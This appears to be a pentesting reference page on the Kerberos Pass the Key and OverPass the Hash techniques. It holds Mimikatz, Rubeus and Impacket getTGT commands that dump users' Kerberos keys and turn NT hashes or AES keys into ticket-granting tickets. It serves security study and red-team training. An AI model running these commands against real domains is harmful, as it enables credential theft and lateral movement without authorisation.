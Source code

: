 # Pass the Key / OverPass the Hash 
- https://lisandre.com/archives/14788
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key
- https://www.hackingarticles.in/lateral-movement-over-pass-the-hash/
- https://www.thehacker.recipes/ad/movement/kerberos/ptk


## Theory
Kerberos offers 4 different key types: DES, RC4, AES-128 and AES-256.

- When the RC4 etype is enabled, the RC4 key can be used. The problem is that the RC4 key is in fact the user's NT hash. Using a an NT hash to obtain Kerberos tickets is called overpass the hash.

- When RC4 is disabled, other Kerberos keys (DES, AES-128, AES-256) can be passed as well. This technique is called pass the key. In fact, only the name and key used differ between overpass the hash and pass the key, the technique is the same.

The traditional Pass the Hash (PtH) technique involves reusing an NTLM password hash that doesn't touch Kerberos. The Pass the Key or OverPass the Hash approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full Ticket-Granting-Ticket (TGT). 

To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module sekurlsa::ekeys. This module will enumerate all key types present for the Kerberos package.

## Practice
=== "Windows"

    ```powershell
    # extract Kerberos Keys
    > mimikatz.exe
    > privilege::debug
    > sekurlsa::ekeys
    ```

    Now that we have access to the AES256_HMAC and RC4_HMAC keys, we can perform the OverPass the Hash or Pass the Key attack using Mimikatz and Rubeus.

    === "Mimikatz"

        ```powershell
        > mimikatz.exe
        > privilege::debug

        # with an NT hash
        > sekurlsa::pth /user:$USER /domain:$DOMAIN /(rc4/ntlm):$NThash /ptt

        # with an AES 128 key
        > sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

        # with an AES 256 key
        > sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
        ```

        This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.
    
    === "Rubeus"

        To forge a ticket using Rubeus, we can use the module asktgt with the username, domain, and hash which can be /rc4, /aes128, /aes256, or /des.

        ```powershell
        # with an NT hash
        > Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt /nowrap

        # with an AES 128 key
        > Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$aes128_key /ptt /nowrap

        # with an AES 256 key
        > Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$aes256_key /ptt /nowrap
        ```

    !!! Tip
        For both mimikatz and Rubeus, the /ptt flag is used to automatically inject the ticket.

    !!! Note
        Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

    !!! Note
        Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a     rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade."`

=== "UNIX-like"
   
    The Impacket script getTGT (Python) can request a TGT (Ticket Granting Ticket) given a password, hash (LMhash can be empty), or aesKey. The TGT will be saved as a .ccache file that can then be used by other Impacket scripts.

    ```bash
    # with an NT hash (overpass-the-hash)
    $ getTGT.py -dc-ip <IP> -hashes '<LMhash:NThash>' <DOMAIN>/<USER>

    # with an AES (128 or 256 bits) key (pass-the-key)
    $ getTGT.py -dc-ip <IP> -aesKey '<aes Key>' <DOMAIN>/<USERNAME>@<IP>
    ```
